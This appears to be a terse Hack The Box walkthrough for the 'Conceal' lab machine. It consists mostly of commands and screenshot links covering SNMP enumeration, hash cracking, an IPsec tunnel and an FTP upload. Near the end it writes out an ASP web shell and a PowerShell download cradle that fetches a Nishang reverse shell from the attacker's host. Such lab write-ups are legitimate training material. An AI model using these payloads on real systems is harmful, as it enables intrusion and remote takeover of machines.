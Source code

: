 ```
nmap -sU
snmpwalk
john
ipsec up conceal
ftp
webshell .asp
reverse shell
JuicyPotato
```



```
nmap -sU 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364715-ff3ffc38-74c1-4413-bfc3-fcae12865969.png)



```
ike-scan 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364778-a4a13ea3-021b-4d83-8b00-c03c57b5a620.png)


```
https://book.hacktricks.xyz/network-services-pentesting/ipsec-ike-vpn-pentesting
ike-scan -M 10.10.10.116
ike-scan -M --showbackoff 10.10.10.116
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c508137c-11a9-4f6e-8d80-781a3670a7e6)
![image](https://github.com/regarmulia/HTB/assets/33616880/e16751c3-eeb3-4562-b04e-01b0144a7b82)


```
snmpwalk -v2c -c public 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364814-465dd54b-fd4a-41e8-a43e-41c669b5d4cd.png)



```
john hash -w=/usr/share/wordlists/rockyou.txt --format=NT
```
![image](https://user-images.githubusercontent.com/33616880/232364875-518777e7-95f3-41ef-bfbe-53774db9d249.png)


```
https://crackstation.net/
Dudecake1!
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c1b4e31c-0f2c-4bc6-bf11-a97d3ee2f339)


```
apt install strongswan
```
![image](https://user-images.githubusercontent.com/33616880/232364935-4cbb7254-df0b-420b-a78d-6829d4000f61.png)
![image](https://user-images.githubusercontent.com/33616880/232364951-64aa1c8c-7ab1-46bb-aed3-7e50852792e5.png)
![image](https://user-images.githubusercontent.com/33616880/232364962-c98b750a-4e75-45f0-aca8-610f44cd4254.png)



```
ipsec up conceal
```
![image](https://user-images.githubusercontent.com/33616880/232365041-1bdb6e08-96cf-4bd8-bff2-0c379c88a5c8.png)



```
nmap -sT -p- 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232365088-55b7420a-981a-49da-89f9-0a26f7f7fbdf.png)



![image](https://user-images.githubusercontent.com/33616880/232365141-15f38484-a572-42cd-88e0-94e3d5e6e527.png)



```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.116/FUZZ -fc 403 -e .aspx,.php,.txt,.html
![image](https://user-images.githubusercontent.com/33616880/232365179-3ae6cec7-5cc5-4768-8365-bfd5630c7cb4.png)
```
![image](https://user-images.githubusercontent.com/33616880/232365198-6ebb3b00-d084-45d0-a9f8-3dc461c794d0.png)



```
ftp 10.10.10.116 : anonymous
put test.txt
```
![image](https://user-images.githubusercontent.com/33616880/232365238-86c2e89e-90ad-46d2-83fe-6445f34f048d.png)
![image](https://user-images.githubusercontent.com/33616880/232365246-f42f2534-6a5c-45af-a10b-33db27d89131.png)



```
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```
```
http://10.10.10.116/upload/cmd.asp?cmd=whoami
```
![image](https://user-images.githubusercontent.com/33616880/232366101-57441e0d-fc94-4fbb-99d5-d55b856e0ad0.png)
![image](https://user-images.githubusercontent.com/33616880/232366110-7f6082bd-20b8-48b0-a5f1-dadc070b338f.png)
![image](https://user-images.githubusercontent.com/33616880/232366126-b3fc0a5b-6379-4593-9ff0-68a460f93c88.png)



```
git clone https://github.com/samratashok/nishang.git
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
Add payload a line to the end: Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4444
http://10.10.10.116/upload/cmd.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.7/Invoke-PowerShellTcp.ps1%27)
```
![image](https://user-images.githubusercontent.com/33616880/232365388-518308e7-efb2-4b48-adef-583573a84920.png)
![image](https://user-images.githubusercontent.com/33616880/232365400-966934e9-4409-414f-8ef7-41e86897b1b6.png)
![image](https://user-images.githubusercontent.com/33616880/232365409-b30bd056-5ec7-4a2b-9540-6f0eb3417dd7.png)



```
whoami /priv
```
![image](https://user-images.githubusercontent.com/33616880/232365422-2e537ec4-2461-4de6-b1ef-bb85995c0182.png)

